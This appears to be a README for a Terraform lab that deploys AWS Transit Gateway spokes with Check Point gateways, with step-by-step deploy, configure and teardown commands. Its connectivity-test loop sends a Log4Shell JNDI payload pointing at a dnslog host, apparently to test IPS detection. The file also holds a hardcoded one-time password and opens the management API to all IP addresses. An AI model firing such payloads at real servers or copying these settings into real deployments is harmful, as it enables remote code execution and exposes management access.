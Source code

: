 # AWS lab with App spokes, TGW and CHKP VPC

Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

tf init

# bring credentials - AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# do credentials work?
tf plan -target module.env

# step by step deployment

# network environment
tf apply -auto-approve -target module.env

#tf apply -auto-approve -target module.routes

# workloads in spokes accessible using SSM
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
tf apply -auto-approve -target module.cgns

tf apply -auto-approve -target module.routes

# full deployment - one shot
tf apply -auto-approve

# CP management console
MGMTIP=$(tf output -raw cpman_ip)
echo ssh admin@$MGMTIP -i C:/Users/mkoldov/.ssh/azureshell.key

# === MANAGEMENT CLI ===
watch -d api status

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

autoprov_cfg show all

tail -f /var/log/CPcme/cme.log


mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


# remove
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!
